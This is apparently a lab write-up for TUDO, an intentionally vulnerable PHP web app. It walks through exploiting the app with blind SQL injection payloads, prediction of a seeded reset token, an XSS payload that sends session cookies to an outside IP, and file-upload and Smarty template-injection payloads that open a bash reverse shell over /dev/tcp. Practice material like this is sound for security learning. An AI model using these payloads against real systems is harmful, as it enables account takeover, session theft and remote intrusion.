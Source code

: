 ## TUDO (Vulnerable PHP Web-App)

https://github.com/bmdyy/tudo

### First Access

To get first access on this challenge, you have two options:
* Explore SQL injection on forgotUsername.php to get password resetToken;
* Create a list with every possible value for this token since you have the seed on utils.php.

<br>

#### SQL Injection
The SQL injection is automated on SQLinjection.py. First you discover user UID with this payload:
 ```
admin' and (select uid from users where username='user1')='%s
```

You can discover that the uid is necessarily based on this line on **forgotpassword.php**:
```
$ret = pg_prepare($db, "createtoken_query", "insert into tokens (uid, token) values ($1, $2)");
```

Now you can extract resetToken with:
```
admin' and (select ascii(substr(token,%s,1)) from tokens where uid=%s limit 1)='%s
```

For some reason you have to compare the character in ascii decimal value.

<br>

#### Predicting Token
The original function to generate token is:
```php
function generateToken() {
        srand(round(microtime(true) * 1000));
        $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';
        $ret = '';
        for ($i = 0; $i < 32; $i++) {
            $ret .= $chars[rand(0,strlen($chars)-1)];
        }
        return $ret;
    }
```

We can create a php file to generate a list for the possible tokens:
```php
<?php

  function generateToken($seed){
      ...
}

	$t_start = $argv[1];
	$t_end   = $argv[2];

	for ($i = $t_start; $i < $t_end; $i++) {
		print_r(generateToken($i) . "\n");
	}
?>
```

This will receive two values from the script that are related to timestamps, since the main function uses microtime.

Now we can create the script **generateTokens.py** to get this possible values and interact with **resetpassword.php** until it finds the correct one.

<br>

### Privilege Escalation
The privilege escalation is based on a XSS on profile description. This will be reflected in the admin page and we may steal your session cookie.

This is the payload and the process is automated on **stealCookie.pyp**:
```
<script>document.write('<img src=http://192.168.159.131:9000/'+document.cookie+' />');</script>
```

On index.php, you can see the difference between on content being sanitize and this vulnerable one not.
```php
# Vulnerable
echo '<td>'.$row[3].'</td>';

# Sanitized
echo '<td><i>'.htmlentities($row[1]).'</i></td>';
```

<br>

### Command Execution
You have 3 main options to get command execution:
* Via file upload
* Via SSTI
* Via deserialization

<br>

#### File Upload
There is a file upload options that do some checks on **upload_images.php**, but they are easily bypassed. This is automated in **rces.py**.

You can bypass **getimagesize** by including a gif header on the payload, use **.phar** to bypass extension check and change Content-Type to image/gif to bypass **allowed_mime**.
```
GIF98a;<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.159.131/9000 0>&1'");?>
```

<br>

#### SSTI
You can modified the index message from **/admin/update_motd.php**. This is vulnerable to template injection. On index.php, we discover that Smarty framework is being used.

We can execute command with the payload above and this is automated in **rces.py**.
```
{php}exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.159.131/9000 0>&1'");{/php}
```

<br>

#### Deserialization
In progress, didn't understand a thing 😭
